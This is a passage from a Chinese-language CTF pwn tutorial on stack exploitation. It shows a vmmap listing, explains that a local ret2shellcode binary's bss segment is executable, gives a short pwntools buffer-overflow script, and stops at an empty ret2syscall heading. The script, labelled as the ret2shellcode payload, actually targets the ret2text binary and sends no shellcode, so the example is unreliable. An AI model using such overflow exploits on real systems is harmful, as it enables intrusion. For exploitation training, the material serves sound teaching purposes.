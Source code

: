 ```shell
0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x08049000 0x0804a000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0xf7dfc000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fac000 0x001af000 --- /lib/i386-linux-gnu/libc-2.23.so
0xf7fac000 0xf7fae000 0x001af000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7faf000 0x001b1000 rwx /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb2000 0x00000000 rwx 
0xf7fd3000 0xf7fd5000 0x00000000 rwx 
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 0x00000000 rwx 
0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 0x00000000 rwx [stack]
```

通过vmmap，我们可以看到bss段对应的段具有可执行权限

```text
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
```

那么这次我们就控制程序执行shellcode，也就是读入shellcode，然后控制程序执行bss段处的shellcode。其中，相应的偏移计算类似于ret2text中的例子。

具体的payload如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## 题目

# ret2syscall

## 原理

ret2syscall需要我们控制程序执行系统调用，获取shell。

## 例子
